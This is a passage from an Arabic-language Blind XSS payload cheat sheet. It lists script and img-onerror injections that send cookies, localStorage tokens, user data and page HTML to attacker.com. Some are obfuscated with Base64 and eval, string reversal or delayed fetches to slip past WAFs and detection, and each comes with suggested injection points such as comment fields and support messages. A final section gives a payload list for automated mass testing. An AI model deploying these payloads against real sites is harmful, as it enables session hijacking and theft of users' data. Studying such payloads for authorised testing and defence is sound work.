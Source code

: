 - **الحقن**: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>`
  - **الإدخال**: أدخل في نموذج: `<script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('userData'))</script>`
  - **كيف يعمل**: يرسل بيانات مستخدم من `localStorage`.
  - **متى يُستخدم؟**: لاستخراج بيانات المشرف.

#### هـ. حقن مع التعتيم
{ #XSS_exploit  / #XSS_ecoded_payload }
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>fetch('http://attacker.com/log?c='+btoa(document.cookie))</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>fetch('http://attacker.com/log?c='+btoa(document.cookie))</script>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط مشفرة بـ Base64.
  - **متى يُستخدم؟**: لتجنب فلاتر WAF.
- **الحقن**: `<script>eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk='))</script>`
  - **الإدخال**: `https://example.com/?comment=<script>eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk='))</script>`
  - **كيف يعمل**: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
  - **متى يُستخدم؟**: لتجاوز أنظمة الكشف.
- **الحقن**: `<script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>`
  - **الإدخال**: أدخل في رسالة دعم: `<script>new Image().src='http://attacker.com/log?c='+(document['cookie'].split('').reverse().join(''))</script>`
  - **كيف يعمل**: يعكس ملفات تعريف الارتباط قبل الإرسال.
  - **متى يُستخدم؟**: لتجنب فلاتر البحث عن الكلمات.
- **الحقن**: `<script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>`
  - **الإدخال**: أدخل في حقل تعليق: `<script>setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)</script>`
  - **كيف يعمل**: يؤخر إرسال البيانات لتجنب الكشف.
  - **متى يُستخدم؟**: لتجنب أنظمة المراقبة الفورية.
- **الحقن**: `<img src=x onerror=eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))>`
  - **الإدخال**: أدخل في نموذج: `<img src=x onerror=eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vYXR0YWNrZXIuY29tL2xvZz9jPScrZG9jdW1lbnQuY29va2ll'))>`
  - **كيف يعمل**: يفك تشفير Base64 عند فشل تحميل الصورة ويرسل البيانات.
  - **متى يُستخدم؟**: لتجاوز فلاتر صارمة.

### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في Blind XSS وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تجمع بيانات مختلفة.
  - مثال قائمة:
    ```
    <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>
    <img src="http://attacker.com/log?d=document.domain">
    <script>fetch('http://attacker.com/log', {method: 'POST', body: document.body.innerHTML})</script>
    <script>new Image().src='http://attacker.com/log?s='+encodeURIComponent(localStorage.getItem('token'))</script>
    <img src=x onerror=fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))>
    ```
- **كيف يعمل**:
  - يتم إدخال الحقن في نقاط إدخال متعددة (مثل حقول تعليقات أو نماذج).
  - يتم مراقبة الخادم الخارجي لتأكيد استلام البيانات.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.
